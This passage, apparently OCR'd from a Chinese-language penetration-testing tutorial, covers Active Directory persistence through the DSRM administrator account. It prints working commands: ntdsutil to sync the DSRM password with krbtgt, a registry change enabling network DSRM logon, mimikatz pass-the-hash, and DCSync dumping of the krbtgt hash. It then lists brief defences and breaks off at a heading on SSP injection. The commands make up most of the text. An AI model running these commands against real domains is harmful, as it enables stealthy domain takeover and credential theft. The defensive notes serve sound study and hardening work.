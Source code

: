```csharp
ntdsutil
set dsrm password
sync from domain account krbtgt
q
q
```

可以进行查看是否成功

```php
lsadump::sam
lsadump::lsa /patch /name:krbtgt
```

### DSRM的三种登录方式

- 0：默认值，只有当城控制器重启并进入DSRM模式时，才可以使用DSRM管理员账号。
- 1:只有当本地AD、DS服务停止时，才可以使用DSRM管理员账号登录域控制器。
- 2:在任何情况下，都可以使用DSRM管理员账号登录域控制器。

如果要使用DSRM账号通过网络登录域控制器，需要将该值设置为2

powershell下执行

```csharp
New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlog
onbehavior" -value 2 -propertyType DWORD
```

### 使用DSRM账号通过网络远程登录域控制器

使用mimikatz进行哈希传递，在域成员机器的管理模式下打开mimikatz：

```csharp
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:xxx /ntlm:xxx
```

### 使用Mimikatz的scysnc功能远程转储krbtgt的NTML Hash

哈希传递攻击完成后

弹出命令窗口 在该窗口下打开mimikatz

```csharp
lsadump::dcsync /domain:xiyou.dayu.com /dc:dc /user:krbtgt
```

### DSRM域后门防御措施

- 定期检查注册表中用于控制DSRM登录方式的键值`hklm:\system\currentcontrolset\control\lsa\`确认该键值为1,或者删除该键值
- 定期修改城中所有城控制器的DSRM账号。
- 经常检查ID为4794的日志。当试设置活动目录服务还原模式的管理员密码会被记录在4794日志中。

SSP维持域控权限
---------

### 利用mimikatz 注入

